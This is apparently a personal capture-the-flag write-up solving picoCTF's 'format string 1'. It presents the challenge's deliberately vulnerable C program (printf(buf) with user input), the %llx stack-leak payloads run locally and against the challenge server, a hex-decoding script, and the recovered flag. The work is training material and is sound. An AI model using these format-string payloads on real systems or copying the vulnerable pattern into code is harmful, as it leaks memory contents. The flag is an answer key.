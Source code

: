 # format string 1

## Method

```
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 58368

```
**Hint1:** https://lettieri.iet.unipi.it/hacking/format-strings.pdf <br>
**Hint2:** Is this a 32-bit or 64-bit binary?


```c
  #include <stdio.h>


  int main() {
    char buf[1024];
    char secret1[64];
    char flag[64];
    char secret2[64];

    // Read in first secret menu item
    FILE *fd = fopen("secret-menu-item-1.txt", "r");
    if (fd == NULL){
      printf("'secret-menu-item-1.txt' file not found, aborting.\n");
      return 1;
    }
    fgets(secret1, 64, fd);
    // Read in the flag
    fd = fopen("flag.txt", "r");
    if (fd == NULL){
      printf("'flag.txt' file not found, aborting.\n");
      return 1;
    }
    fgets(flag, 64, fd);
    // Read in second secret menu item
    fd = fopen("secret-menu-item-2.txt", "r");
    if (fd == NULL){
      printf("'secret-menu-item-2.txt' file not found, aborting.\n");
      return 1;
    }
    fgets(secret2, 64, fd);

    printf("Give me your order and I'll read it back to you:\n");
    fflush(stdout);
    scanf("%1024s", buf);
    printf("Here's your order: ");
    printf(buf);
    printf("\n");
    fflush(stdout);

    printf("Bye!\n");
    fflush(stdout);

    return 0;
  }
```

This c programme seems alot less complicated than the format_string_0 thankfully so lets analyse first.

At the start of the programme we have our general declarations with ``buff`` containing atleast 1024 characters to form a string and ``secret1``, ``flag``, ``secret2`` being 64 characters.

First it seems to read the content of ``secret-menu-item-1.txt`` into secret1. next the content of ``flag.txt`` into flag and lastly the content of ``secret-menu-item-2.txt`` into secret2. 

Once this is all done we seem to get a user prompt and input that takes a ``scanf("%1024s", buf)`` to which it then prints out our order then exits the programme. This is then printed out without a format specifier ``printf(buf);`` which we most likely have to abuse and exploit to our advantage.

Essentially when entering our exploit we need to exploit the ``fgets(flag, 64, fd); fd = fopen("secret-menu-item-2.txt", "r");``
I can assume that we are supposed to read the flag variable from this ``char flag[64];`` to get the flag. Now last time we understood that using %s multiple times prints stuff on the stack. However it seems this time i may need to calculate where i want to print it from 

Now lets first see what kind of binary file they have provided as i did not check last time. 
upon using ``file filename`` command on the binary we know its 64 bits as shown with the hint meaning if we the memory addresses are 64 bits wide as well hence when pieces of data pushed onto the stack such as a local variable or argument will typically be 64 bits (8 bytes) on a 64-bit system. Meaning we can traverse the stack by forcing it to print values on it for 8 bytes each allowing us to view the variables.

Hence as they have given us a test binary we can possibly replicate a test input / output. As we know the secret1 and the secret2 are around the flag so what if we set these to known values such as 1, 2?. 

For eg we can set both secret1 and secret2 to just be 1 and 2 of 64 bytes also filling up the storage of secret1 and secret 2 variables when opened. Hence we can then set a dummy flag.

```shell
hadakoi@Laptop:~/ctfsolve$ cat secret-menu-item-1.txt
1111111111111111111111111111111111111111111111111111111111111111
hadakoi@Laptop:~/ctfsolve$ cat secret-menu-item-2.txt
2222222222222222222222222222222222222222222222222222222222222222
hadakoi@Laptop:~/ctfsolve$ cat flag.txt
picoCTF{test}
hadakoi@Laptop:~/ctfsolve$
```
ofcourse now trying to execute the binary with what they gave passing our possible payload which ``%llx, `` This prints 8 bytes of the stack in hex. 

```shell
hadakoi@Laptop:~/ctfsolve$ cat payload.py
print('%llx,' * 50)
hadakoi@Laptop:~/ctfsolve$
```

```shell
hadakoi@Laptop:~/ctfsolve$ python3 payload.py | ./format-string-1
Give me your order and I'll read it back to you:
Here's your order: 7ffdf5bb6120,0,0,a,400,3232323232323232,3232323232323232,3232323232323232,3232323232323232,3232323232323232,3232323232323232,3232323232323232,32323232323232,7b4654436f636970,a7d74736574,7ffdf5bb6350,7f1200000000,7f12ebc16ab0,7ffdf5bb6348,7ffdf5bb6440,ffffffff,3131313131313131,3131313131313131,3131313131313131,3131313131313131,3131313131313131,3131313131313131,3131313131313131,31313131313131,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,
Bye!
hadakoi@Laptop:~/ctfsolve$
```

Now over here we see our ``3232323232323232`` which is the hex converted to string for ``22222222``, 8 times we also see ``3131313131313131`` which is the same thing but for one now converting the hex strings inbetween them we see partial parts of our flag

``7b4654436f636970,a7d74736574,7ffdf5bb6350,7f1200000000,7f12ebc16ab0,7ffdf5bb6348,7ffdf5bb6440,ffffffff`` -> ``{FTCocip§×G6WGÿß[¶5ñ ñ.¼«ÿß[¶4ÿß[¶Dÿÿÿ``

We alsocome to realise that the first part of our flag was infact in little endian format meaning if we try this on the server it will also output it back in little endian format. We also see that it starts from the %llx of 14. Hence we print the hex bytes for these specific payloads using ``%13$llx,%14$llx,%15$llx,%16$llx,%17$llx,%18$llx,%19$llx,%20$llx,%21$llx``.

Hence now we test this input printing the locations specifically at the 13th val of the array and so on.  

```shell

hadakoi@Laptop:~/ctfsolve$ nc mimas.picoctf.net 50137
Give me your order and I'll read it back to you:
%13$llx,%14$llx,%15$llx,%16$llx,%17$llx,%18$llx,%19$llx,%20$llx,%21$llx
Here's your order: 0,7b4654436f636970,355f31346d316e34,3478345f33317937,35365f673431665f,7d313464303935,7,7400056c38d8,2300000007
Bye!
```

now upon looking at this and putting it into a hex converter we get a bunch of gibberish however trying each of the first few bytes seperately such as ``7b4654436f636970,355f31346d316e34,3478345f33317937,35365f673431665f,7d313464303935`` returns us ``{FTCocip5_14m1n44x4_31y756_g41f_}14d095`` now as we know this was in little endian format we just need to slice the string by 8 chars and reverse it this lets us get the flag as ``picoCTF{4n1m41_57y13_4x4_f14g_65590d41}`` Hence solved.

My script for converting 

```
hex_values = [
    "7b4654436f636970",
    "355f31346d316e34",
    "3478345f33317937",
    "35365f673431665f",
    "7d313464303935"
]

# Convert each hex value to ASCII, reverse it, and concatenate the results
decoded_string = ''.join(bytes.fromhex(hex_value).decode('utf-8')[::-1] for hex_value in hex_values)

print(decoded_string)
```

## Flag

> picoCTF{4n1m41_57y13_4x4_f14g_65590d41}
